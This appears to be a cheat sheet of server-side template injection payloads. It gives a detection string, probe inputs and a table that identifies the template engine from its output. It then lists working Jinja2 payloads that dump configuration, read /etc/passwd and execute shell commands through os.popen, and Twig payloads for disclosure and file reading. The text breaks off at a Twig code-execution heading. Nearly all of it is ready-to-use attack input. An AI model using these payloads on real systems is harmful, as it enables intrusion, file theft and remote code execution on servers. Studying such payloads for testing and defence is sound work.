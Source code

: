 `${{<%[%'"}}%\.`

**Test payloads**

```
${7*7}
a{*comment*}b
${"z".join("ab")}
{{7*'7'}}
```

**Results**

| Output    | Engine    |
|-----------|-----------|
| `7777777` | Jinja2    |
| `49`      | Twig      |
| `ab`      | Smarty    |
| `azb`     | Mako      |
| Orig.     | Not vuln. |

**Jinja2**

**Information disclosure:**

```jinja2
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
```

**LFI:**

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

**RCE:**

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

**Twig**

Information disclosure:

```twig
{{ _self }}
```

**LFI (work only with the PHP Symfony framework):**

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**RCE:**
